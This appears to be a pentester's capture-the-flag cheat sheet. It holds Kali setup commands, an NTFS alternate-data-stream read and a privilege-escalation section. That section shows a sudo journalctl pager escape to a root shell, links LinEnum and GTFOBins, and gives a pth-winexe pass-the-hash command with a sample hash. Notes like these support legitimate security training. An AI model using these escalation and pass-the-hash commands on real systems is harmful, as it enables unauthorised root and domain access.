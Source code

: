 # General
## Kali Configuration
```bash
## set keyboard layout
setxkbmap -layout de
# set timezone
sudo dpkg-reconfigure tzdata
```

## Find without errors
```bash
find / -name test.py 2>/dev/null
```

## Save all Terminal Output to File
https://unix.stackexchange.com/questions/200637/save-all-the-terminal-output-to-a-file
```bash
# Convert RAW Output to TXT
cat $SCRIPT_LOG_FILE | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > $txtfile
```

## NTFS Alternate Datastream
```bash
# show alternate datastreams
dir /R

# output alternate datastreams
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
# Privesc
## LinEnum.sh
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

## GTFOBIns
https://gtfobins.github.io/ 

## journalctl
```bash
# size termain windows very small
usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
# whoami
root
```

## Pass-the-Hash spawn CMD
```bash
pth-winexe -U$domain/$username%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //$ip cmd
```
